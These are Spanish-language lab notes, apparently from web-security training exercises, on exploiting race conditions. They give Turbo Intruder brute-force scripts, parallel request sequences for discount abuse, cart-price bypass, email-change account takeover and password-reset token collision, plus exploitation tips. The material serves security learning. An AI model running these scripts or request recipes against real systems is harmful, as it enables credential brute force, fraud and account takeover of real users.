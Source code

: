 Las condiciones de carrera son un tipo común de vulnerabilidad estrechamente relacionada con los defectos de la lógica empresarial. Se producen cuando los sitios web procesan las solicitudes simultáneamente sin las salvaguardias adecuadas. Esto puede llevar a múltiples hilos distintos interactuando con los mismos datos al mismo tiempo, resultando en una "colisión" que causa un comportamiento no intencionado en la aplicación. Un ataque con condición de carrera utiliza peticiones cuidadosamente cronometradas para causar colisiones intencionales y explotar este comportamiento no deseado con fines maliciosos.

* Limit overrun race conditions -> 
```
Rebajar precio de un item con un codigo de descuento enviar la request varias veces IMPORTANTE EN UN `SEND GROUP IN PARALLEL` duplicar las requests las veces que sean necesarias hasta poder conseguir realmente el descuento del precio en $0 o casi $0
```

* Bypassing rate limits via race conditions -> `login brute force password` **en la request poner en password=%s para que lea el payload esa parte que es la que se atacará, y OBVIO cambiar el username a carlos**
```python
"""
Para hacer un brute force, de la contraseña del user victim en este caso `carlos`
Pero se mantiene un rate limit en el lab, con race condition se puede bypassear: 

Usar la lista de password de `Passwords List`
Con TURBO INTRUDER - Tiramos el código (importante tener las passwords en el portapapeles/clipboard)
"""

def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
        
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in wordlists.clipboard:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

""" Reconocer el endpoint que retorne un 302 OK, esa será efectivamente la password, este ataque sirve en caso tal de poder encontrar un race condition en la option de login/ 
```

* Multi-endpoint race conditions -> `Ataque Parallel single connection`
	*  3 Request en total dentro de una race condition.
```js
Un POST /cart/checkout HTTP/2 que haga el checkout y añadimos DOS 2 request de 
añadir la chaqueta que queremos comprar porque deseamos lograr la sincronización de la peticiones aprovechandonos de la condición de carrera haciendo que cuando compre una gift card la interpreté la race condition con la compra de la jacket sin validar el precio con el credit store de $100 que tenía en la aplicación.
```

* Single-Endpoint Race Conditions -> `Paralell single packet attack`
```js
2 request dentro de un parallel single packet attack -> 
	* POST Cambio de correo electronico de wiener con el correo @exploit-server 
	* POST cambio de correo electronico de Carlos 

*. email=wiener@exploit-server.net&csrf=valueCSRF
*. email=carlos@juiceandshop.net&csrf=valueCSRF

Nos llegará al exploit server el correo electronico de cambio de carlos, tomamos el endpoint dejamos nuestro username wiener y nos apropiamos del correo de carlos, tipicamente un account takeover. 
```

* Exploiting time-sensitive - Race Condition -> `Parallel Single packet attack`
```js
2 request dentro de un parallel single packet attack ->
	* GET /forgot-password HTTP/2 //to get csrf token
	* POST /forgot-password HTTP/2
		username=wiener&csrf=valueCSRF
	* POST /forgot-password HTTP/2
		username=carlos&csrf=valueCSRF
* Nos llegará un solo correo de reset token, el problema radica en que a carlos le llegará un token de forgot password identico, nosotros usaremos el token para cambiar la password de carlos, ya que el token de el y el que llega a wiener son el mismo. 
* Cambiar la contraseña del endpoint GET /forgot-password?user=carlos&token=VALUEToken
```

<hr>

Tips - de mi amigo @krakenEU

**To identify:**

- Try seeing if the condition is attached to a session for example, there may be a time lapse between the client submit and the server actually committing the action. Or the lock is applied per user not session

**To exploit:**

- Try applying coupons in group (send in parallel)
- If a delay is noticed in a response, try racing the expensive item having a cheaper one. Add Item + purchase requests in parallel
- Try 2 requests to see if you can recieve the code of an arbitrary mail. You mail server + arbitrary mail in parallel 
- Try seeing if php cookies are set on forgot password for example, send two change password requests, one with the cookie and csrf of null session. If you get same token on the email you found a collision that takes only a timestamp but not user, change the username to carlos on the first request and send again in parallel, copy your link and change the user to carlos to access his password reset link.
- Brute Force with Turbo Intruder Extension Turbo Intruder template, takes wordlist from clipboard

```python
def queueRequests(target, wordlists):
    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )  
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard 
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
